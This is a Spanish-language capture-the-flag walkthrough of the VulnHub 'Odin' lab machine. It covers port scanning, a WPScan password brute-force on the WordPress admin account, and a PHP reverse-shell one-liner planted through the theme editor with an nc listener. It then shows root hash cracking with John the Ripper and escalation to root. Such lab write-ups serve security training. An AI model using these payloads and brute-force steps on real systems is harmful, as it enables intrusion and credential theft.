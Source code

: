 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Odin VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 11:32 CEST
Nmap scan report for 192.168.5.202
Host is up (0.00048s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.5.3
|_http-title: vikingarmy &#8211; Just another Joomla site
MAC Address: 00:0C:29:F6:90:B6 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.44 seconds
```

Tendremos que editar el archivo `hosts` para que nos cargue el `wordpress`...

```shell
sudo nano /etc/hosts

#Dentro del nano
<IP>        odin
```

Lo guardamos y ahora si lo recargamos nos ira...

Como hay un `wordpress` si nos vamos a `/wp-admin` veremos un panel de login, si probamos a poner como usuario `admin` y contraseña `admin` veremos que no son las credenciales pero nos confirma que el usuario `admin` existe por lo que haremos lo siguiente...

```shell
wpscan --url http://odin/ --usernames admin --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://odin/ [192.168.5.202]
[+] Started: Tue Jun 25 11:40:20 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://odin/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] Registration is enabled: http://odin/wp-login.php?action=register
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://odin/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://odin/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5.3 identified (Insecure, released on 2020-10-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://odin/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5.3</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://odin/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.3'

[+] WordPress theme in use: twentytwenty
 | Location: http://odin/wp-content/themes/twentytwenty/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://odin/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://odin/wp-content/themes/twentytwenty/style.css?ver=1.5
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://odin/wp-content/themes/twentytwenty/style.css?ver=1.5, Match: 'Version: 1.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / qwerty                                                                                                                                                              
Trying admin / jessica Time: 00:00:00 <                                                                                                          > (20 / 14344412)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: qwerty

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Jun 25 11:40:29 2024
[+] Requests Done: 160
[+] Cached Requests: 40
[+] Data Sent: 43.663 KB
[+] Data Received: 32.726 KB
[+] Memory used: 292.051 MB
[+] Elapsed time: 00:00:08
```

Veremos que nos saco las credenciales del usuario `admin`...

```
User = admin
Password = qwerty
```

Por lo que nos logueamos, y una vez dentro nos iremos a `Appearance` y dentro del mismo a `Theme Editor` de ahi vamos a la opcion llamada `Theme Functions` y dentro del codigo `php` meteremos una `Reverese Shell`...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Estamos a la escucha...

```shell
nc -lvnp <PORT>
```

Y le damos al boton de `Update File` una vez hecho eso ya tendremos una shell con el usuario `www-data`...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos la siguiente ubicacion...

```shell
cd /var/www/html
```

Y leemos la configuracion tipica de un `worpress`...

```shell
cat wp-config.php
```

Info:

```php
/** root:$6$e9hWlnuTuxApq8h6$ClVqvF9MJa424dmU96Hcm6cvevBGP1OaHbWg//71DVUF1kt7ROW160rv9oaL7uKbDr2qIGsSxMmocdudQzjb01:18600:0:99999:7:::*/
```

Veremos una linea con eso de ahi, por lo que intentaremos crackearlo...

```shell
nano hash

#Dentro del nano
root:$6$e9hWlnuTuxApq8h6$ClVqvF9MJa424dmU96Hcm6cvevBGP1OaHbWg//71DVUF1kt7ROW160rv9oaL7uKbDr2qIGsSxMmocdudQzjb01
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jasmine          (root)     
1g 0:00:00:00 DONE (2024-06-25 13:53) 1.960g/s 4015p/s 4015c/s 4015C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Veremos que la contraseña de `root` es `jasmine`, por lo que haremos lo siguiente...

```shell
su root
```

Metemos la contarseña y ya seriamos `root` ahora leeremos la flag...

> bjorn (flag\_final)

```
cσηgяαтυℓαтιση

Have a nice day!


aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1WaGtmblBWUXlhWQo=
```
